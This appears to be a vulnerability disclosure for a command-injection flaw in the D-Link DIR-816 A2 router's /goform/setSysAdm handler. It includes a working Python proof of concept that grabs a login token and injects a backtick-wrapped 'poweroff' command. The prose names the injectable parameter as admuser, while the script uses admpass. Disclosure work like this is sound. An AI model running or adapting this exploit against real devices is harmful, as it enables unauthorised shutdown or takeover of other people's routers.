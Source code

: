 # D-Link DIR-816 A2 cmd_injection

**Vender**: D-Link

**Firmware version**: 1.10 B05

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**: http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816

**Exploit Author**: [SkYe231](mailto:skye231@foxmail.com)

## detail

In the handler of route `/goform/setSysAdm`, the value of parameter `admuser` is used in the construction of command `chpasswd.sh %s %s`, which is later fed to `system`:

![20210310231620](20210310231620.png)

So it could lead to command injection with crafted request.

## POC

> The injection command is `poweroff`. After running POC, the router will **shut down**

```python
# coding=utf-8
import requests
import re

ip = "192.168.0.1"
cmd = "`poweroff`"

print("[+]Get tokenid")

url = "http://{}/dir_login.asp".format(ip)
rsp = requests.get(url)

pattern = re.compile(r'name="tokenid"  value="\d+"')
result = pattern.findall(rsp.text)
tokenid = result[0][23:33]
print("[+]tokenid:{}".format(tokenid))

url = "http://{}/goform/setSysAdm".format(ip)
data = {"admuser": "admin", "admpass": cmd, "tokenid": tokenid}
try:
    requests.post(url, data=data, allow_redirects=False, timeout=1)
except:
    pass
print("[+]DIR816: {}".format(cmd))
```

